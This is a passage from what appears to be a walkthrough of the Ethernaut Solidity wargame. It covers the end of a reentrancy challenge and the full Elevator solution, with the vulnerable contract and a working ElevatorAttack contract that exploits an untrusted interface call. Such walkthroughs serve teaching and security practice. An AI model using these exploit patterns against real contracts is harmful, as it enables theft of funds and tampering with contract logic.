 ```
        }
    }

    function withdrawblanace() payable public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
This contract is vulnerable to re-entracy attack as it's updating user balance after external contract call. So malicious can create a loop on withdraw function from 1st line to 3rd line and it will withdraw all the ether available on the contract.


# 11. [Challenge 11: Elevator](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)


Tasks:
- This elevator won't let you reach the top of your building. Right?

**Solution:** \
Vulnerable Code:
```
  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

Attack Payload:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import './Elevator.sol';

contract ElevatorAttack {
    Elevator public elevator;
    bool result = true;

    constructor(address _elevator) public {
        elevator = Elevator(_elevator);
    }

    function isLastFloor(uint) external returns(bool) {
        if(result == true) {
            result = false; 
        } else {
            result = true; 
        }
        return result;
    }

    function callGoTo() public {
        elevator.goTo(13);
    }
}
```